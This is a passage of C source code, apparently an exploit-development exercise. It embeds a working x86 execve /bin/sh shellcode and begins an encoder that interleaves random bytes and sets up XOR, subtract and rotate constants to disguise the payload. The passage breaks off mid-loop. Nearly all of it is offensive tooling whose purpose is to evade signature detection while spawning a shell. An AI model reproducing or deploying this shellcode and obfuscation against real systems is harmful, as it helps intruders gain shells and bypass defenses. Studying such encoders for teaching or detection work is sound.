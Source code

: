 ```c
#include <stdio.h>
#include <stdlib.h>
#include <time.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>

#define DEC 0x2 // the value that will be used to subtract every byte
#define XORVAL 0x2c // the value that will be used to xor with every byte

// execve stack shellcode /bin/sh
unsigned char shellcode[] = \
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";

void main()
{
int rot = 4; //right rotation 4 bits

printf("\n\nShellcode:\n\n");
int o;
for (o=0; o < strlen(shellcode); o++) {
    printf("\\x%02x", shellcode[o]);
}

printf("\n\nShellcode Length %d\n",sizeof(shellcode)-1);
printf("\n\nShellcode:\n\n");
o=0;
for (o; o < strlen(shellcode); o++) {
    printf("0x%02x,", shellcode[o]);
}

printf("\n");
int i;
unsigned char *buffer = (char*)malloc(sizeof(shellcode)*2);

//use srand to generate ranodm bytes as seen below 
srand((unsigned int)time(NULL));
unsigned char *shellcode2=(char*)malloc(sizeof(shellcode)*2);

// placeholder to copy the random bytes using rand
unsigned char shellcode3[] = "\xbb";
int l = 0;
int k = 0;
int j;

// random byte insertion into even number location
printf("\nInsertion encoded shellcode\n\n");
for (i=0; i<(strlen(shellcode)*2); i++) {
    // generate random bytes. 
    // Adding an integer with 0&ff leaves only the least significant byte (masking)
    buffer[i] = rand() & 0xff;
    memcpy(&shellcode3[0],(unsigned char*)&buffer[i],sizeof(buffer[i]));
    k = i % 2;
    if (k == 0)
    {
         shellcode2[i] = shellcode[l];
         l++;
    }
    else
    {
         shellcode2[i] = shellcode3[0];
    }
```